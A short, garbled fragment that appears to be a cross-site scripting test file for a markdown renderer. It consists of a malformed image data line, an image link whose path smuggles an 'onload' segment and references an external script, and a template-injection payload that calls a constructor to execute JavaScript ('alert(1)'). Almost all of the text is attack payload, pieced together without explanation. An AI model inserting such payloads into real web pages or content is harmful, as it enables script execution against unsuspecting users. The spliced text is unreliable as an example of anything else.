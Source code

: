 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<p :=_c.constructor`alert(1)`()>
